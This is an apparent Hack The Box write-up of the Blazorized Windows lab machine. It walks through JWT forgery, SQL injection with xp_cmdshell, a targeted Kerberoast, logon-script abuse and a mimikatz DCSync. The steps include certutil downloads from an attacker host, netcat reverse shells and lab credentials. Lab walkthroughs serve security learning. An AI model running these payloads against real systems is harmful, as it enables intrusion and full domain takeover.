

Blazorized is a Windows machine, starting with a website written using the Blazor .NET framework that allows downloading a DLL file that can be reverse engineered to find a JWT secret and use it to get access to the admin panel. The admin panel is vulnerable to an SQL injection to get code execution. To pivot to the next user, the WriteSPN privilege  can be abused to perform a targeted Kerberoast attack on another user. The targeted user is able to write a logon script that ultimately gives access to a user that allows performing a DCSync attack on the domain.

# Reconnaissance
Starting with an nmap scan, we see that the host is a domain controller and redirects us to `blazorized.htb`. 

```console
$ nmap -sCV -oN blazorized.nmap 10.10.11.22
Nmap scan report for 10.10.11.22
Host is up (0.014s latency).
Not shown: 988 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Did not follow redirect to http://blazorized.htb
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-07-02 06:55:05Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
1433/tcp open  ms-sql-s      Microsoft SQL Server 2022
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
|_ssl-date: 2024-07-02T06:55:15+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-07-01T14:41:08
|_Not valid after:  2054-07-01T14:41:08
|_ms-sql-ntlm-info: ERROR: Script execution failed (use -d to debug)
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: blazorized.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC1; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-07-02T06:55:07
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```

We add the domain to our `/etc/hosts` file and continue to enumerate the website. On the website we notice that it is built using `Blazor WebAssembly`. One feature of the site is to request all posts and categories from the API at `/check-updates`. 


This function makes a request to `api.blazorized.htb` so we add this to our host file as well. Intercepting the request in BurpSuite, we see that an authorization token is passed.


## JWT Token Forging
We can decode the JWT token with [jwt.io](https://jwt.io/):

```json
{
  "http://schemas.xmlsoap.org/ws/2005/05/identity/claims/emailaddress": "superadmin@blazorized.htb",
  "http://schemas.microsoft.com/ws/2008/06/identity/claims/role": [
    "Posts_Get_All",
    "Categories_Get_All"
  ],
  "exp": 1731143252,
  "iss": "http://api.blazorized.htb",
  "aud": "http://api.blazorized.htb"
}
```

Another thing to note is that when refreshing the website and intercept our requests, a GET request is made to `/_framework/blazor.boot.json`. We can try to extract the `.dll` files from the Blazor application by doing a curl command at this endpoint. This will list all loaded dll files by the application.

```console
$ curl http://blazorized.htb/_framework/blazor.boot.json
{
  "cacheBootResources": true,
  "config": [ ],
  "debugBuild": false,
  "entryAssembly": "Blazorized.DigitalGarden",
  "icuDataMode": 0,
  "linkerEnabled": true,
  "resources": {
    "assembly": {
      "Blazored.LocalStorage.dll": "sha256-5V8ovY1srbIIz7lzzMhLd3nNJ9LJ6bHoBOnLJahv8Go=",

      <SNIP>

      "System.Xml.ReaderWriter.dll": "sha256-9yumv+5QaTSARQB46DStO9vcXQyA3cPvv74jAta3lQA="
    },
    "extensions": null,
    "lazyAssembly": {
      "Blazorized.Helpers.dll": "sha256-ekLzpGbbVEn95uwSU2BGWpjosCK\/fqqQRjGFUW0jAQQ="
    },

    <SNIP>

  }
}
```

## DLL Reversing
After looking at the files one by one and decompiling them using `dnSpy` we find something interesting for the `Blazorized.Helpers.dll` in the function `JWT`.


Within the decompiled dll there is a `jwtSymmetricSecurityKey` along with several other variables, one of which is an endpoint to the administrator dashboard. We can add this to our hosts file as well.

# User
With the found JWT secret and admin subdomain, we can generate a new JWT token with the following payload and using the signature we found (make sure to increase the expiration to make the token valid for a longer period).

```
{
  "http://schemas.xmlsoap.org/ws/2005/05/identity/claims/emailaddress": "superadmin@blazorized.htb",
  "http://schemas.microsoft.com/ws/2008/06/identity/claims/role": [
    "Super_Admin"
  ],
  "exp": 1732143252,
  "iss": "http://api.blazorized.htb",
  "aud": "http://admin.blazorized.htb"
}
```

There are several ways to forge another JWT token with the secret we just acquired. The easiest method is to again use [jwt.io](https://jwt.io/) and inset the secret in the signature field.


Now you can copy the JWT token and import the token into the browser by creating a new item in Local Storage with the key set to `jwt` and the token as the value. Then navigate to `http://admin.blazorized.htb` and refresh the page to login.


## SQL Injection
The Super Admin Panel allows managing posts. One feature is looking for duplicate post titles that is vulnerable to blind SQL injection. This can be verified by the following payload:

```
' waitfor delay '00:00:05'--
```

This will wait for 5 seconds before executing the query. Now that we have verified that we have an SQL injection, let's explore what we can do with this. We can try to upload a Netcat binary onto the host to get a reverse shell with `xp_cmdshell`. We first have to enable this transaction in order to use it:

```
'; EXEC sp_configure 'show advanced options',1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell',1; RECONFIGURE;-- -
```

We receive a notification confirming that the command executed without any errors.


Now lets try to get a reverse shell. We start by hosting the `nc.exe` binary with a Python webserver, start a netcat listener and then executing the following queries:

```
'; EXEC master.dbo.xp_cmdshell 'certutil -f -urlcache http://10.10.14.4:8888/nc.exe %TEMP%\nc.exe'; -- 
'; EXEC master.dbo.xp_cmdshell '%TEMP%\nc.exe 10.10.14.4 4444 -e cmd.exe'; -- 
```

After executing the payload we get a shell as `nu_1055` and can grab the user flag on their desktop.

```console
$ nc -nvlp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.11.22 50130
Microsoft Windows [Version 10.0.17763.5936]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
blazorized\nu_1055
```

# Root
On the machine we see two additional users (`RSA_4810` and `SSA_6010`).

```console
C:\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 9756-87FD

 Directory of C:\Users

06/20/2024  06:28 AM    <DIR>          .
06/20/2024  06:28 AM    <DIR>          ..
02/02/2024  04:13 PM    <DIR>          Administrator
02/25/2024  02:41 PM    <DIR>          NU_1055
10/06/2021  02:46 PM    <DIR>          Public
02/01/2024  08:36 AM    <DIR>          RSA_4810
06/19/2024  07:39 AM    <DIR>          SSA_6010
```

## BloodHound Enumeration
Since this is a domain controller and we are a domain user, we can run SharpHound to get more information about the users in the domain and what permissions they have.

```console
C:\Users\NU_1055> certutil -f -urlcache http://10.10.14.4:8888/SharpHound.exe %TEMP%\SharpHound.exe
PS C:\Users\NU_1055> %temp%\SharpHound.exe -c All --zipfilename "Bloodhound.zip"
```

We wait for the SharpHound tool to finish and then transfer the ZIP file to our machine.
```console
$ nc -l -p 4444 > Bloodhound.zip

C:\Users\NU_1055> %temp%\nc.exe -w 3 10.10.14.4 4444 < 20241109040008_Bloodhound.zip
```

It might be necessary to extract the json files from the ZIP file and converting it to a correct JSON format (using jq). Checking out our results in BloodHound, we see that the user `NU_1055` has the ability to write to the "serviceprincipalname" attribute of the user `RSA_4810`, therefore we are able to perform a targeted kerberoast attack.


We can copy PowerView onto the host and perform the attack from Windows.
```console
C:\Users\NU_1055> certutil -f -urlcache http://10.10.14.4:8888/PowerView.ps1 PowerView.ps1
C:\Users\NU_1055> powershell
PS C:\Users\NU_1055> . .\PowerView.ps1

PS C:\Users\NU_1055> Set-DomainObject -Identity 'RSA_4810' -Set @{serviceprincipalname='nonexistent/BLEED'}
PS C:\Users\NU_1055> $User = Get-DomainUser 'RSA_4810'
PS C:\Users\NU_1055> $User | Get-DomainSPNTicket | fl

$krb5tgs$23$*RSA_4810$blazorized.htb$nonexistent/BLEED*$D7234985D58C1...<SNIP>...EFC94D4506EC6C26
```

We get back the `krb5tgs` hash of the RSA user and can crack it offline.

```console
$ hashcat -m 13100 RSA_4810.hash $ROCKYOU
```

The password of the user is `(Ni7856Do9854Ki05Ng0005 #)`. 

## DACL Abuse

We can now login with Evil-WinRM and we look for ACLs that can be abused.

```console
$ evil-winrm -i 10.10.11.22 -u 'RSA_4810' -p '(Ni7856Do9854Ki05Ng0005 #)'

*Evil-WinRM* PS C:\Users\RSA_4810\Documents> upload PowerView.ps1
*Evil-WinRM* PS C:\Users\RSA_4810\Documents>  . .\PowerView.ps1
*Evil-WinRM* PS C:\Users\RSA_4810\Documents> Invoke-ACLScanner -ResolveGUIDs | select IdentityReferenceName, ObjectDN, ObjectAceType, ActiveDirectoryRights | fl

<SNIP>

IdentityReferenceName : RSA_4810
ObjectDN              : CN=SSA_6010,CN=Users,DC=blazorized,DC=htb
ObjectAceType         : Script-Path
ActiveDirectoryRights : WriteProperty

<SNIP>
```

We find one ACL for our current user that shows a WriteProperty on the script path of the `SSA_6010` user. By having this permission it could allow us to write a custom logon script that executes whenever this user tries to login to the machine. We can look if this user tried to login:
```console
*Evil-WinRM* PS C:\Users\RSA_4810\Documents> [DateTime]::FromFileTime((Get-ADUser -Identity ssa_6010 -Properties LastLogon).LastLogon)
Saturday, November 9, 2024 4:32:38 AM
*Evil-WinRM* PS C:\Users\RSA_4810\Documents> date
Saturday, November 9, 2024 4:32:44 AM
```

It looks like this person is logging in and out every minute so lets abuse this now. We are able to write a `bat` file in `sysvol\[domain]\scripts\` and use this to run a reverse shell whenever the user `SSA_6010` tries to login. We can check which logon script folder is from our target user by checking the permissions.

```console
*Evil-WinRM* PS C:\windows\sysvol\domain\scripts> icacls A32FF3AEAA23
A32FF3AEAA23 BLAZORIZED\RSA_4810:(OI)(CI)(F)
             BLAZORIZED\Administrator:(OI)(CI)(F)
             BUILTIN\Administrators:(I)(F)
             CREATOR OWNER:(I)(OI)(CI)(IO)(F)
             NT AUTHORITY\Authenticated Users:(I)(OI)(CI)(RX)
             NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
             BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
             BUILTIN\Server Operators:(I)(OI)(CI)(RX)
*Evil-WinRM* PS C:\windows\sysvol\domain\scripts> certutil -f -urlcache http://10.10.14.4:8888/nc.exe C:\Users\Public\nc.exe
*Evil-WinRM* PS C:\windows\sysvol\domain\scripts> echo 'C:\Users\Public\nc.exe 10.10.14.4 5555 -e cmd.exe' | Out-File -FilePath C:\windows\SYSVOL\sysvol\blazorized.htb\scripts\A32FF3AEAA23\login.bat -Encoding ASCII
*Evil-WinRM* PS C:\windows\sysvol\domain\scripts> Set-ADUser -Identity SSA_6010 -ScriptPath 'A32FF3AEAA23\login.bat'
```

We wait a minute for the user to login and catch our reverse shell. From BloodHound we also see that this user is able to perform a DCSync attack.



We upload `mimikatz.exe` and perform the attack and get the hash of the Domain Admin.

```console
C:\Users\Public> .\mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:BLAZORIZED.HTB /user:Administrator" "exit"

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   : 
Password last change : 2/25/2024 11:54:43 AM
Object Security ID   : S-1-5-21-2039403211-964143010-2924010611-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: f55ed1465179ba374ec1cad05b34a5f3

$ evil-winrm -i 10.10.11.22 -u 'Administrator' -H 'f55ed1465179ba374ec1cad05b34a5f3'

*Evil-WinRM* PS C:\Users\Administrator\Desktop> type note.txt

If you enjoyed this machine and want to learn more about DACL attacks, check out the 'DACL Attacks I' and 'DACL Attacks II' modules on HTB Academy.

- Pedant
```